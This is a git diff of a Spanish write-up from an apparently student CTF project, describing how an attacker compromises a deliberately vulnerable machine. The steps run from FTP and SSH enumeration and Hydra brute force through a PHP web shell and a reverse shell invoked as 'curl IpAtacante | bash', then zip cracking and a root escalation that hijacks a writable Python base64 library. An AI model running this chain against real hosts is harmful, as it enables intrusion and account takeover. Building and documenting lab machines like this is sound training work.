

Before and after one commit to azraelp/Proyecto-Final, a Markdown page: Maquinas/Diseño Inseguro/Explicación máquina.md, the part around the change printed below. Shown: that part at 89% size. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/Maquinas/Diseño Inseguro/Explicación máquina.md
+++ b/Maquinas/Diseño Inseguro/Explicación máquina.md
@@ -18,25 +18,30 @@ El servicio de **apache** alojará nuestra pagina web la cual esta inspirada en
 
 Para comenzar el atacante realizará un reconocimiento de los servicios expuestos por la maquina, y de primeras podrá ver que el servicio **FTP** es propenso a hacer un login mediante el usuario de **anonymous** y que el **SSH** es propenso a enumeración de usuarios.
 
-Cuando el atacante se ponga a revisar la web y realizar **FUZZING** para descubrir subdirectorios ocultos, encontrará el directorio **secret**, el cual al intentar acceder no tendra permisos de lectura.
+Cuando el atacante se ponga a revisar la web y realizar **FUZZING** para descubrir subdirectorios ocultos, encontrará el directorio **documents**, el cual al intentar acceder no tendra permisos de lectura.
 
 Si el atacante sigue revisando la web, encontrará que no hay ningun vector de entrada a través de la pagina web, por lo cual se pondrá a probar que puede hacer con el usuario de **anonymous** en **FTP**, pero se dará cuenta que con este usuario tampoco puede realizar acciones importantes para vulnerar la maquina.
 
-El atacante se pondrá a revisar mejor la web y verá que se hablan de personajes de la serie, por lo cual se creará un diccionario con nombres de usuario relacionados con los personajes de la serie **Los Originales**, de esta forma el atacante utilizará una herramienta de **Python** para enumerar los usuarios existentes del sistema mediante **SSH**, consiguiendo encontrar al usuario **Elijah** existente en la maquina.
+El atacante se pondrá a revisar mejor la web y verá que se hablan de personajes de la serie, por lo cual se creará un diccionario con nombres de usuario relacionados con los personajes de la serie **Los Originales**, de esta forma el atacante utilizará una script en **Python** para enumerar los usuarios existentes del sistema mediante **SSH**, consiguiendo encontrar al usuario **elijah** existente en la maquina.
 
-Una vez el atacante sepa que el usuario **Elijah** existe en la maquina, utilizará la herramienta **Hydra** junto con el diccionario de contraseñas **rockyou.txt** y el usuario **Elijah** para realizar un ataque de fuerza bruta e intentar averiguar la contraseña del usuario atacando al servicio de **FTP**, de esta forma obtendremos la contraseña del usuario **Elijah** para acceder al **FTP**.
+Una vez el atacante sepa que el usuario **elijah** existe en la maquina, utilizará la herramienta **Hydra** junto con el diccionario de contraseñas **rockyou.txt** y el usuario **elijah** para realizar un ataque de fuerza bruta e intentar averiguar la contraseña del usuario atacando al servicio de **FTP**, de esta forma obtendremos la contraseña del usuario **elijah** para acceder al **FTP**.
 
-Cuando el atacante acceda al **FTP** con el usuario de **Elijah** podrá ver que puede visualizar un directorio **Elijah**, en el cual despues de probar a realizar que acciones puede hacer, verá que puede subir ficheros dentro de este directorio **Elijah**, de esta forma el atacante subira un fichero **cmd.php** el cual tendrá codigo en PHP para realizar una **RCE**.
+Cuando el atacante acceda al **FTP** con el usuario de **elijah** podrá ver que puede visualizar un directorio **elijah**, en el cual despues de probar a realizar que acciones puede hacer, verá que puede subir ficheros dentro de este directorio **elijah**, de esta forma el atacante subira un fichero **cmd.php** el cual tendrá codigo en PHP para realizar una **RCE**.
 
-Sabiendo todo esto, el atacante accederá al directorio **secret** dentro de la web y verá que dentro de **secret** existe **Elijah**, de esta forma llegará a la conclusión que el fichero con el **RCE** que ha subido dentro de **Elijah** por **FTP** esta sincronizado con los directorios de la web, por lo que si accede a este fichero y ejecuta **cmd=whoami** y por pantalla le muestra **www-data** verá que tiene ejecución remota de comandos.
+Sabiendo todo esto, el atacante accederá al directorio **documents** dentro de la web y verá que dentro de **documents** existe **elijah**, de esta forma llegará a la conclusión que el fichero con el **RCE** que ha subido dentro de **elijah** por **FTP** esta sincronizado con los directorios de la web, por lo que si accede a este fichero y ejecuta **cmd=whoami** y por pantalla le muestra **www-data** verá que tiene ejecución remota de comandos.
 
 De esta forma el atacante, se creará un **index.html** con codigo para ejecutarse una **reverse shell** en **bash**, se creará un servicio **HTTP** y se pondra en escucha por el **puerto 443**, dentro de la url hará que la maquina realice un **curl** a la IP del atacante y "pipeara" el resultado con **bash** **(http://IpMaquina/cmd.php?cmd=curl IpAtacante | bash)**, realizando esto obtendremos una **reverse shell** y obtendremos acceso a la maquina como **www-data** en donde realizaremos un tratamiento de la **TTY**.
 
-Una vez ya tenemos acceso como **www-data** dentro de la maquina, encontraremos una imagen del persone **Caroline**. dicha imagen tendrá un zip llamado **backupPasswords.zip** en **/var/www/**, cifrado con una contraseña, la cual podremos crackear con **zip2john** para obtener el **hash** y despues crackear el **hash** con la herramienta de **John**.
+Una vez ya tenemos acceso como **www-data** dentro de la maquina, el atacante encontrará una imagen del personaje de **caroline**, esta imagen tendra el nombre de **caroline.jpg** y estara ubicado en **/var/www/**, esta imagen tendrá un fichero **zip** oculto, que se podrá extraer mediante la herramienta de **binwalk**, una vez el atacante ha extraido este fichero **zip** vera que al intentar **"unzipearlo"** este se encuentra protegido con contraseña, por lo cual se deberá extraer un **hash** de la contraseña mediante **zip2john** y despues crackear este **hash** con la herramienta de **John**.
 
-Cuando hagamos el unzip del fichero, el atacante verá otro fichero con muchas contraseñas, y utilizará estas contraseñas para acceder con otro usuario del sistema llamado **Caroline**, de esta forma podrá **moverse lateralmente** a este usuario.
+Cuando se tenga la contraseña del fichero **zip**, lo descomprimimos y veremos un fichero con muchas contraseñas, las cuales estas contraseñas se utilizaran junto al usuario de **caroline** y la herramienta de **Hydra** para descubrir si alguna de estas contraseñas pertenece la usuaria **caroline** y es posible acceder por **SSH**.
 
-Con el usuario **Caroline**, podremos visualizar la flag **user.txt** en el directorio **/home/caroline/**, además el atacante verá que tiene permisos de SUID sobre un fichero en especifico, el cual este permiso le permitirá escalar sus privilegios al usuario de root.
+Con **Hydra** descubrimos la contraseña de **caroline** e iniciamos sesión por **SSH** para obtener acceso a la maquina, una vez tenemos acceso a la maquina con la usuaria **caroline**, el atacante el atacante podrá visualizar la flag **user.txt** en el directorio **/home/caroline/**.
+El atacante se pondrá a buscar la forma de escalar privilegios, despues de estar buscando encontrará que puede ejecutar el binario de **python3.10** sin contraseña como **root**. Además tambien encontrará en el **home** de la usuaria **caroline**, un fichero con nombre **codificadorNombres.py**, el cual tiene la función de mostrar el nombre que reciba como parametro a **base64**.
+
+Si el atacante visualiza como funciona este script verá que se importan las librerias de **system** y **base64**, sabiendo esto, se pondra verificará y encontrará que los permisos de la libreria **base64.py** para **python3.10** tiene permisos para que **otros** puedan modificar el contenido de la libreria y guardarlo, por lo cual el atacante editará el fichero de **base64.py** y en la función de **b64enconde** que utiliza el **script** de **codificadorNombres.py** se añadira una linea para que cuando se ejecute el **script**, el usuario que ejecute el script **"spawnee"** una **bash**.
+
+De esta forma como el atacante puede ejecutar el binario **python3.10** como **root**, ejecutará el **script codificadorNombres.py**  utilizando **python3.10** como el usuario **root**, de esta forma se **"spawneara"** una **bash** como **root**, por lo tanto el atacante habria escalado sus privilegios al usuario con más privilegios.
 
 Una vez tenga acceso con el usuario **root**, el atacante podrá visualizar el flag de **root.txt** dentro de **/root/**, además de obtener acceso completo a toda la maquina.
 
```
Also changed, not shown: other parts of Maquinas/Diseño Inseguro/Explicación máquina.md (+3 -3 lines).
